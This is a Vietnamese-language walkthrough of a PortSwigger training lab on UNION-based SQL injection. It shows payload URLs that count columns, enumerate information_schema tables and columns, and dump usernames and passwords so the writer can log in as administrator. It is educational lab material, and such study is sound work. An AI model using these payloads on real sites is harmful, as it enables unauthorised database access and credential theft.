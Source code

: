 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

### Link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
![Require of Lab](/Images/sql9.1.png)

Yêu cầu của bài lab là đăng nhập bằng thông tin của user `administrator`

Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Corporate gifts`, `Food & Drink`, `Gifts` và `Lifestyle`, `Pets`....
![Website](/Images/sql9.2.png)

Bước đầu tiên để giải quyết bài lab, ta phải xác định số cột được trả về là bao nhiêu. 
Sau khi tăng dần vị trí tương đối lên đến 3 thì thấy thông báo lỗi, do đó ta xác định được số cột được trả về là 2
> https://ac5c1f911f9b4788c018152c006b0057.web-security-academy.net/filter?category=Lifestyle`'+ORDER+BY+3--`

![Error of query](/Images/sql9.3.png)

Tiếp theo, là xác định từng cột trả về có chứa văn bản hay không.
Ta kiểm tra từng cột được trả về bằng cách chèn một vài ký tự trong từng cột và xem phản hồi
> https://ac5c1f911f9b4788c018152c006b0057.web-security-academy.net/filter?category=Lifestyle`'+UNION+SELECT+'abc',NULL--`

![Check column](/Images/sql9.4.png)

> https://ac5c1f911f9b4788c018152c006b0057.web-security-academy.net/filter?category=Lifestyle`'+UNION+SELECT+NULL,'abc'--`

![Check column](/Images/sql9.5.png)

Sau khi xác định các cột đều chứa văn bản, ta tiến hành lấy thông tin của các bảng có trong dtb như sau
> https://ac5c1f911f9b4788c018152c006b0057.web-security-academy.net/filter?category=Lifestyle`'+UNION+SELECT+TABLE_NAME,+NULL+FROM+information_schema.tables--`

![All tables](/Images/sql9.6.png)
Sau khi có được toàn bộ bảng có trong dtb, ta thấy có một bảng tên là `users_gfswkw` là bảng chứa các thông tin của user, bây giờ ta sẽ đi lấy thông tin của các cột có trong bảng `users_gfswkw` này
> https://ac5c1f911f9b4788c018152c006b0057.web-security-academy.net/filter?category=Lifestyle`'+UNION+SELECT+COLUMN_NAME,+NULL+FROM+information_schema.columns+WHERE+table_name%20='users_gfswkw'--`

![All column](/Images/sql9.7.png)

Đã có được thông tin của các cột trong bảng chứa thông tin user, thì ta sẽ tiến hành lấy thông tin của các user thông qua các cột usename và password
> https://ac5c1f911f9b4788c018152c006b0057.web-security-academy.net/filter?category=Lifestyle`'+UNION+SELECT+password_sojzpw,+username_ixwvfz+FROM+users_gfswkw--`

![All user](/Images/sql9.8.png)

Để hoàn thành bài lab, ta dùng thông tin của user `administrator` để đăng nhập vào website
![Result](/Images/sql9.9.png)


<div align="right"> <i> Ngày 22 tháng 01 năm 2022 </i> </div>
